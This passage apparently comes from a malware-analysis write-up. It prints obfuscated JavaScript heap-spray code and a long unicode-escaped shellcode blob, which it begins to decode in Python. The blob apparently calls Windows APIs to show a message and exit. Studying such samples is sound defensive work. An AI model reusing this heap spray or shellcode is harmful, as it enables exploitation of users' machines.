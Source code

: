 ```
 \n    while(MOysyGgYplwyZzNdETHwkru.length+fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA < 0x40000) MOysyGgYplwyZzNdETHwkru = MOysyGgYplwyZzNdETHwkru+MOysyGgYplwyZzNdETHwkru+UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb;
 \n    DPwxazRhwbQGu = new Array();
 \n    for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA<100;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) DPwxazRhwbQGu[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = MOysyGgYplwyZzNdETHwkru + ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv;
 \n\n    for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=142;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += unescape("%ub550%u0166");
 \n    bGtvKT = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length + 20\n    while (zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length < bGtvKT) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
 \n    Juphd = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, bGtvKT);
 \n    QCZabMzxQiD = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length-bGtvKT);
 \n    while(QCZabMzxQiD.length+bGtvKT < 0x40000) QCZabMzxQiD = QCZabMzxQiD+QCZabMzxQiD+Juphd;
 \n    FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE = new Array();
 \n    for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA<125;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = QCZabMzxQiD + zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;\n'
$
```

We see unicode blob passed as an argument to `unescape` method. Let's extract and analyze it. Once extracted we will need to clean and convert it to hex:

```python
$ ipython
>>>
>>> import re
>>> import binascii
>>>
>>> sc = "%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff"
```